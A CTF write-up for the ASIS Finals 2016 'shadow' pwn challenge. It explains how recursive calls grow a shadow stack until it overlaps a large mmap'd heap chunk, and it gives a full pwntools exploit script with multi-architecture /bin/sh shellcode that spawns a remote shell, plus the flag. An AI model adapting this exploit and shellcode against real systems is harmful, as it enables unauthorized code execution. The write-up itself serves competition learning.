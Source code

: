 ```yaml
---
title: ASIS CTF Finals 2016 -- shadow
comments: true
permalink: "/:title/"
tags:
- CTF
- ASIS
- Python
- Pwnable
- shellcode
- heap
categories:
- write-ups
date: '2016-09-13 15:32:00 +0000'
---
```


**Category:** pwn  
**Points:** 99  

<!-- more -->   
  
32 bit ELF, with no NX, PIE, RELRO protection. The program will first use `mmap` to allocate a range of memory and treat it as a shadow stack, which stores the function return addresses.  
In the main function the program first ask us to input our name (the buffer was placed in the .bss section), then give us two choice:  
  
* Add a beer. This one will first ask us to input the beer description length, then let us input our own beer description.  
* Read/Modify beer desription. Here we first choose one of our beer, and the program will print out the beer description. After that we can choose if we want to modify the beer description or not.  
  
So where's the vulnerability? The program has `malloc` in the add beer function, but it doesn't have `free` in the entire program, so it's probably not UAF. There's a stack overflow in the beer description function though, but the binary has enabled the stack guard protection, so it's kind of hard for us to bypass the canary check. But then I took a good look at the beer description function, and found that we can call the function recursively, by keep entering an invalid choice. This will cause the shadow stack keep "growing up".  
  
And how's that gonna help us to exploit the service? Well, first of all we know that the `malloc` function in libc will call `mmap` instead for the large size memory allocation ( over 0x20000 bytes). Since the add beer function use `malloc` to allocate memory for our beer description, we could try to create a super long beer description. This will make `malloc` call `mmap` instead, and the allocated memory page **will be placed just right before the last mmap memory page, which is the shadow stack.** If we can make the shadow stack keep "growing up", **it will eventually overlapped with the memory page of our beer description**. Since we can control (modify) the beer description, we can then modify the saved return address and change it to the `name` buffer, which we input our shellcode instead.  
  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()

```
  
After I finshed my exploit, I found that it will timeout due to the crappy internet connection, so I have to upload my exploit to trello and ask my teammate **freetsubasa** to send the payload for me XD  

Anyway the flag is: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`
